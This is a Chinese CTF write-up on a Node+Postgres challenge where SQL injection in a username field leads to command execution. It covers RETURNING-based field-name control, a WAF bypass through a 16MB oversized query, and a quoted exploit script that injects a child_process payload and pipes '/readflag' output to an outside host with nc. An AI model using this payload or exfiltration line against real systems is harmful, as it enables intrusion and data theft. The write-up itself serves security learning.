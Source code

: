 题目很明显是上面提到的node+Postgres导致的命令执行漏洞，但是其中有几个条件不符：

1、由于注入点在username，但是根据分号分割，所以我们没办法多语句执行。
2、waf过滤了斜杠。

一般意义上来说，造成上面漏洞的原因是，查询结果的字段名被拼接进入了语句，而对于常见的mysql来说，insert语句是没有返回的，所以我们没办法控制命令注入。

但是在postgres sql中，存在RETURNING语法，文档中的描述是这样的。

```
INSERT INTO table [ ( column [, ...] ) ]
    { DEFAULT VALUES | VALUES ( { expression | DEFAULT } [, ...] ) [, ...] | query }
    [ RETURNING * | output_expression [ AS output_name ] [, ...] ]
    
    
If the INSERT command contains a RETURNING clause, the result will be similar to that of a SELECT statement containing the columns and values defined in the RETURNING list, computed over the row(s) inserted by the command.
```

既然我们可以控制返回，我们就可以构造像select一样的返回，这样我们就可以绕过第一部分。

紧接着就是第二个问题，由于构造payload一定要用到反斜杠，所以我们必须想办法解决黑名单的问题。

我们先来看看这部分的流程，如果在你的请求中带上了黑名单词，那么ip就会被加入黑名单中，然后判断数据库中存不存在你的ip，进入ban流程。

那么如果我们想办法在insert这步让他报错，那么后面的select就不会有结果。

这里经过测试，只有一个办法有用，当SQL语句超过16M就会触发错误，`max_allowed_packet`错误是因为mysql限制了最大数据包的大小，导致如果我们构造一个足够长的数据包，就会导致插入错误。

这里有个有趣的事情是，orange师傅分享说到为了方便选手做题，他设置了自动清空黑名单的数据库，但是正因为这种情况，有人尝试条件竞争来绕过了waf。（删除之后使代码经过插入到判断前，就可以绕过：>）

最后就是要想办法构造命令执行，这部分内容都来自于P神的博客。

在实际利用中，会有一些问题：
```
单双引号都不能正常使用，我们可以使用es6中的反引号

Function环境下没有require函数，不能获得child_process模块，我们可以通过使用process.mainModule.constructor._load来代替require。

一个fieldName只能有64位长度，所以我们通过多个fieldName拼接来完成利用
```

最后贴上orange在github分享的exp

```
from random import randint
import requests

# payload = "union"
payload = """','')/*%s*/returning(1)as"\\'/*",(1)as"\\'*/-(a=`child_process`)/*",(2)as"\\'*/-(b=`/readflag|nc orange.tw 12345`)/*",(3)as"\\'*/-console.log(process.mainModule.require(a).exec(b))]=1//"--""" % (' '*1024*1024*16)


username = str(randint(1, 65535))+str(randint(1, 65535))+str(randint(1, 65535))
data = {
            'username': username+payload, 
                'password': 'AAAAAA'
                }
print 'ok'
r = requests.post('http://13.113.21.59:31337/reg', data=data);
print r.content
```


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/c1c9vp7cvb2z2ausx5biqr84/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/u3360luwi2cwwqdsukt59ckv/image.png